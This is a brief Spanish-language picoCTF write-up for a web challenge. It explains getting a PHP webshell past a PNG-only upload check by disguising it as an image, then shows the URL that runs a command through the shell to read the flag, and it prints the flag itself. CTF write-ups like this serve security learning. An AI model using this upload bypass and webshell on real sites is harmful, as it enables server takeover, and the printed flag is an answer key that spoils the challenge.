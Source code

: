 
### Descripcion

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

### Solucion

```
Se tuvo que crear un archivo php primero y despues disfrazarlo de archivo png para poder subirlo y de ahi accedimos a la consola ingresando en el navegador http://atlas.picoctf.net:57342/

http://atlas.picoctf.net:57342/uploads/webshell.png.php?cmd=cat%20../HFQWKODGMIYTO.txt

picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}

```

### Notas



## Referencias